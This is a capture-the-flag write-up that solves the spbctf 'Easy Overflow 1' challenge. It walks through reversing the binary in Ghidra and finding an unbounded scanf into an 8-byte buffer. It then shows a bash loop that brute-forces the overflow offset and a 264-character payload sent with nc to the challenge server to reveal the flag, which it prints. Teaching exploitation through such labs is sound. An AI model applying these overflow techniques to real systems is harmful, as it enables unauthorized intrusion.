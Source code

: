 
<p align="center">
  <img src="./screenshots/buffer_logo.png" alt="buffer_logo"/>
</p>

---

- 🎯 **Target:** Kids 2.0 pwn.spbctf - Easy Overflow 1
- 🧑‍💻 **Author:** `sonyahack1`
- 📅 **Date:** 19.06.2025
- 📊 **Difficulty:** Easy
- 📁 **Category:** `Stack Buffer Overflow`
- 💻 **Platform:** Linux

---

## Ghidra

> I download the `mc4_censored` task file and open it in `ghidra` to disassemble and identify potentially vulnerable code blocks:

![mc4_censored_download](./screenshots/mc4_censored_download.png)

![ghidra](./screenshots/ghidra.png)

> I see the main function `main` which is executed when the file `mc4_censored` is executed. The logic of the function is presented on the right side of the program:

![main_function](./screenshots/main_function.png)

> the function consists of a stack where local variables are located. The stack grows downwards, so: `local_118[8]` is located above (in memory at a higher address), then `word[256]`, then `local_10[4]`.
> When the file is executed, the string `What's your favorite word?` is printed; after user input, the value is saved in an array of `8` bytes - `local_118`.

> the string `"No."` is copied to `local_10`.

> The problem is in this line `«scanf("%s", local_118);»`. This line reads the input string from the user without length limitation into a buffer of `8` bytes -> `local_118`.
> This can lead to a `buffer overflow` vulnerability, which will allow you to simply overwrite the values ​​of adjacent variables on the stack, for example - `local_10`.

> According to the logic of the function, if `local_10` is equal to - `"Yesss!"`, then the program will print a flag to the console:

```none

printf("Flag is: spbctf{*********************}\n");

```

> Otherwise, since the `local_10` variable contains the string `"No."`, the console will print the string `Good, but i won\'t give you flag.\n`:

```none

printf("Good, but i won\'t give you flag.\n");

```

> **Note:** `Buffer Overflow` is a memory management bug attack technique that occurs when a program, when executed, overwrites the user's input data in
> the program's allocated memory (buffer), going beyond its limits and thereby overwriting critical data in these variables or giving the opportunity to write its own.

---

> So the point is that the program itself does not expect that the user's input will affect the `local_10` variable, but this is possible due to the poor buffer size and lack of protection.

> When executing the file, you need to enter such a number of characters to go beyond the allocated memory cell and overwrite `local_10`. That is, overwrite its value - the string `"No."`

> Manually selecting the appropriate number of characters is very time-consuming. To exploit this attack, I will write a simple script `mc4_exploit.sh` to enumerate characters starting from `1`
> and ending with `1000` (for example) and specify the file `mc4_censored` as an argument:

```bash

#!/bin/bash
	for i in {1..1000}; do

  		echo -n "$i: ";

  		python3 -c "print('A'*$i + 'Yesss!')" | ./mc4_censored
	done

```

> Make the file executable and run it:

```bash

chmod +x mc4_exploit.sh

./mc4_exploit.sh

```
> Result:

![script_flag](./screenshots/script_flag.png)

> When sending `264` characters with the string `«Yesss!»` appended, the program returns a flag. (encrypted :) )

> Ok. Now I know that the buffer overflow starts with the `264` character and then the data is overwritten.

> Again, as with the script, manually typing `264` characters is too tedious. To generate a string with arbitrary characters of the required length, I will use the `pwgen` utility:

```bash

pwgen -s 264 1

```
> Result:

![pwgen_string](./screenshots/pwgen_string.png)

> The string is ready. Don't forget to add `Yesss!"` at the end because we need to overwrite the value of the `local_10` variable after overflow. That is, by the conditions after overflow
> I replace the value of the current variable `local_10` with the string `"Yesss!"` and then the logic will be as follows - `iVarl == 0 ` -> `"Yesss!" == "Yesss!"`.

> I run the `mc4_censored` file and send there the generated string with `Yesss!` added:

![mc4_censored_flag](./screenshots/mc4_censored_flag.png)

> OK. The data of the `local_10` variable has been overwritten. The program returned the `flag. But in encrypted form.

> To get the full flag, you need to send a request via `nc` to `109.233.56.90:11584`:

![nc_flag](./screenshots/nc_flag.png)

```bash

nc 109.233.56.90 11584

What's your favorite word?  7lhlDhfud93y2m6bEDVhgbKqoBxjcTPdI05QkKk2Xh5NBS68E2Nw0pEaloMjBWV33n1vQULY0Q9ihEgIKJkuINMtlsRk5ct4d34X5ru3eAXg0T79WTEbkTGIUkoj8TUZWYCWEbmG1DaWa5
			    VouqpMnWF3Cq3OnKw00UpVLEKIrZFwyOx4ppbu1ze4bmLEeSNo4jzn19KtVAzvoXVtIYKaBPV1UcCkSr4a1KMu6t5p2HFVGPwFdSxVmHbW8qnP5IvxxbcRCQbdYesss!

Flag is: spbctf{babys_f1rst_0verfl0ww}


```

> I get flag - `spbctf{babys_f1rst_0verfl0ww}`
